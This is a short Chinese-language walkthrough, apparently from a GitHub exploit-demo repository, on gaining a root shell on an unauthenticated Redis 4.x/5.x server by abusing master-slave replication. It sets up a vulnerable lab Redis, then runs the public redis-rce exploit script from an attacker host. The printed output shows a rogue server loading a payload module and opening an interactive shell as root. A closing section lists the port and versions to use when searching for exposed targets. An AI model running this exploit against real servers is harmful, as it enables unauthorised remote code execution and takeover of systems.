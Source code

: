 # Redis未授权通过主从复制GETSHELL


## 0x01 环境搭建

 靶机kali，ip地址192.168.1.16，安装redis服务命令。  

 wget http://download.redis.io/releases/redis-5.0.0.tar.gz  
 tar xzf redis-5.0.0.tar.gz  
 cd redis-5.0.0  
 make  


 编译好然后修改redis.conf文件，把127.0.0.1 改成 0.0.0.0  启动服务。  


 ./redis-server /root/redis-5.0.0/redis.conf  

 ![1](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/1.jpg)

## 0x02 漏洞利用

  攻击机Ubuntu，ip地址192.168.1.107，下载exp脚本，然后输入参数开始。

  git close https://github.com/Ridter/redis-rce  
  cd redis-rce  
  greekn@greekn:~/redis-rce$ python3 redis-rce.py -r 192.168.1.16 -L 192.168.1.107 -f exp_lin.so  
  <br>
  █▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄         █▄▄▄▄ ▄█▄    ▄███▄       
  █  ▄▀ █▀   ▀  █  █  ██   █     ▀▄       █  ▄▀ █▀ ▀▄  █▀   ▀  
  █▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄         █▀▀▌  █   ▀  ██▄▄        
  █  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀          █  █  █▄  ▄▀ █▄   ▄▀  
    █   ▀███▀   ███▀   ▐                    █   ▀███▀  ▀███▀        
  ▀                                       ▀                       
  \<br>
 [*] Connecting to  192.168.1.16:6379...  
 [*] Sending SLAVEOF command to server  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Setting filename  
 [+] Accepted connection from 192.168.1.16:6379  
 [*] Start listening on 192.168.1.107:21000  
 [*] Tring to run payload  
 [+] Accepted connection from 192.168.1.16:38875  
 [*] Closing rogue server...  

 [+] What do u want ? [i]nteractive shell or [r]everse shell: i  
 [+] Interactive shell open , use "exit" to exit...  
 $ whoami  
 root  
 $   

 ![2](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/2.jpg)

## 0x03 脆弱目标寻找  

 漏洞关键词redis 默认端口6379，影响版本 4.x/5.x  

 ![3](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/3.jpg)

 参考链接 https://paper.seebug.org/975/  

 ![4](https://github.com/greekn/Tao-loophole-demo/blob/master/cve-rule/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E9%80%9A%E8%BF%87%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6GETSHELL/4.jpg)

